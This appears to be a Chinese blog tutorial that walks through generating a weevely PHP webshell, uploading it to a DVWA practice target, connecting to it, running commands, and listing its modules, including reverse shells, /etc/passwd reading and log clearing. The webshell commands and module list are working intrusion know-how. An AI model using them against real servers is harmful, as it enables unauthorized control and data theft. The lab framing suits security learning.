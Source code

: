 # 原创
：  【使用过程】weevely生成、上传、连接、执行…你一定行

# 【使用过程】weevely生成、上传、连接、执行…你一定行

**目录**

[weevely前言：](#weevely%E5%89%8D%E8%A8%80%EF%BC%9A)

[简介：](#%E7%AE%80%E4%BB%8B%EF%BC%9A)

[使用方法：](#%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95%EF%BC%9A)

[第一步：查看是否安装weevely，并查看版本信息](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E6%9F%A5%E7%9C%8B%E6%98%AF%E5%90%A6%E5%AE%89%E8%A3%85weevely%EF%BC%8C%E5%B9%B6%E6%9F%A5%E7%9C%8B%E7%89%88%E6%9C%AC%E4%BF%A1%E6%81%AF)

[第二步：生成shell（php）文件](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E7%94%9F%E6%88%90shell%EF%BC%88php%EF%BC%89%E6%96%87%E4%BB%B6)

[第二步：上传文件到目标服务器 ](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6%E5%88%B0%E7%9B%AE%E6%A0%87%E6%9C%8D%E5%8A%A1%E5%99%A8%C2%A0)

[第三步：在终端使用weevely，连接到shell（php文件）](#%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%9C%A8%E7%BB%88%E7%AB%AF%E4%BD%BF%E7%94%A8weevely%EF%BC%8C%E8%BF%9E%E6%8E%A5%E5%88%B0shell%EF%BC%88php%E6%96%87%E4%BB%B6%EF%BC%89)

[第四步：执行相关系统命令，获取相关信息](#%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E6%89%A7%E8%A1%8C%E7%9B%B8%E5%85%B3%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4%EF%BC%8C%E8%8E%B7%E5%8F%96%E7%9B%B8%E5%85%B3%E4%BF%A1%E6%81%AF)

[第五步：调用weevely模块](#%E7%AC%AC%E4%BA%94%E6%AD%A5%EF%BC%9A%E8%B0%83%E7%94%A8weevely%E6%A8%A1%E5%9D%97)

[小白初试使用方法：](#%E5%B0%8F%E7%99%BD%E5%88%9D%E8%AF%95%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95%EF%BC%9A)

[模块大全：](#%E6%A8%A1%E5%9D%97%E5%A4%A7%E5%85%A8%EF%BC%9A)

[推荐：](#%E6%8E%A8%E8%8D%90%EF%BC%9A)

---


 

## weevely前言：

> 
Webshell是经常被使用的攻击手法，一般会将asp或php后门文件与网站服务器WEB目录下正常的网页文件混在一起，然后就可以使用浏览器来访问asp或php后门，得到一个命令执行环境，以达到控制网站服务器的目的


## 简介：

> 
（在Linux中已经集成安装了）
weevely是一款使用python编写针对PHP的webshell工具，采用c/s模式构建，能模拟一个类似于telnet的连接shell。
使用的是比较主流的base64加密结合字符串变形技术，后门中所使用的函数均是常用的字符串处理函数，有很好的隐蔽性。
weevely具有生成shell文件、连接后台、资源搜索、信息探测、文件管理操作、错误配置审计、暴力破解、数据库操作、端口扫描等功能


## 使用方法：

### 第一步：查看是否安装weevely，并查看版本信息

> 
打开终端，输入weevely，检查是否安装了weevely，如果安装过，就能看见版本信息，并能看见基本的使用说明



### 第二步：生成shell（php）文件

> 
 weevely generate &lt;password&gt;  &lt;path&gt;/xx.php
我这里输入的是weevely generate 111 /root/1.php 
(这个path是已经存在的路径，而后面的文件是将要在这个目录下生成的shell文件)

 <img alt="" height="477" src="https://img-blog.csdnimg.cn/f6d70ee3773b4167968f2c40c55b10e9.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA6buR6Imy5Zyw5bimKOW0m-i1tyk=,size_15,color_FFFFFF,t_70,g_se,x_16" width="645"/>


### 第二步：上传文件到目标服务器 

> 
我这里使用owaspbwa靶机来试


找到upload上传地方，然后上传生成的shell（php）文件


查看上传文件所在的地址（真实中，文件目录啥的都可以扫出来）



### 第三步：在终端使用weevely，连接到shell（php文件）

> 
weevely  &lt;url&gt;  &lt;password&gt;
我这里输入的是weevely http://192.168.190.130/dvwa/hackable/uploads/1.php 111
这里的URL指文件上传后的文件所在地址



### 第四步：执行相关系统命令，获取相关信息

> 
 第一次执行的提示Permission denied（权限不够）
然后下面就进入到上传到的那个文件夹里面了

 然后再加上ls
就成功了 



### 第五步：调用weevely模块

> 
执行更多的操作，输入help命令可以查看相关的命令


 随机试一个幸运儿



 

### 小白初试使用方法：

> 
不知道模块的命令的话，就可以把命令输入，然后查看给出的提示



### 模块大全：

> 
:backdoor_reversetcp          执行反向TCP shell
:backdoor_tcp                 在TCP端口产生一个壳
:file_cp                      复制单个文件
 :file_grep                    打印线与多个文件中的模式匹配
 :file_zip                     压缩或展开ZIP文件
 :file_bzip2                   压缩或展开Bzip2文件
:file_tar                     压缩或展开tar文件
 :file_gzip                    压缩或展开Gzip文件
:file_mount                   使用httpfs安装远程文件系统
 :file_cd                      更改当前工作目录
 :file_clearlog                从文件中删除字符串
 :file_read                    从远程文件系统中读取远程文件
:file_download                从远程文件系统下载文件
 :file_touch                   更改文件时间戳
 :file_ls                      列表目录内容
 :file_enum                    检查存在列表列表的存在和权限
:file_upload                  将文件上传到远程文件系统
 :file_find                    查找具有给定名称和属性的文件
 :file_check                   获取文件的属性和权限
 :file_edit                    在本地编辑器上编辑远程文件
 :file_webdownload             下载URL.
 :file_upload2web              将文件自动上传到Web文件夹并获得相应的URL
:file_rm                      删除远程文件
 :shell_php                    执行php命令
 :shell_sh                     执行shell命令
:shell_su                     执行su的命令
:sql_dump                     多DBMS MySqldump更换
:sql_console                  执行SQL查询或运行控制台
 :bruteforce_sql               BruteForce SQL数据库
:net_ifconfig                 获取网络接口地址
:net_mail                     发送邮件
 :net_curl                     执行类似卷曲的HTTP请求。
 :net_scan                     TCP端口扫描。
 :net_proxy                    运行本地代理以通过目标浏览HTTP / HTTPS浏览。
 :net_phpproxy                 在目标上安装PHP代理。
:system_info                  收集系统信息。
 :system_extensions            收集PHP和WebServer扩展列表。
 :system_procs                 列出运行进程。
:audit_phpconf               审核PHP配置。
 :audit_suidsgid               查找suid或sgid标志的文件。
 :audit_disablefunctionbypass  旁路禁用与mod_cgi和.htaccess的限制。
 :audit_filesystem             审核文件系统以获取弱权限。        
 :audit_etcpasswd              用不同的技术读取/ etc / passwd。


### 推荐：

[【XSS跨站合集】反射型、存储型、DOM类XSS原理+利用过程](https://blog.csdn.net/qq_53079406/article/details/123694180?spm=1001.2014.3001.5501)

[Burpsuite【十二模块一次解决】【这都不看？】Filter、Target、Scanner、Proxy、Intruder、Repeater、Sequencer、Decoder、Comparer…](https://blog.csdn.net/qq_53079406/article/details/123590641?spm=1001.2014.3001.5501)

[【数据隐藏】一起入门隐写吧，宝？word、图像、移动设备、文件压缩数据隐藏](https://blog.csdn.net/qq_53079406/article/details/123537834?spm=1001.2014.3001.5501)
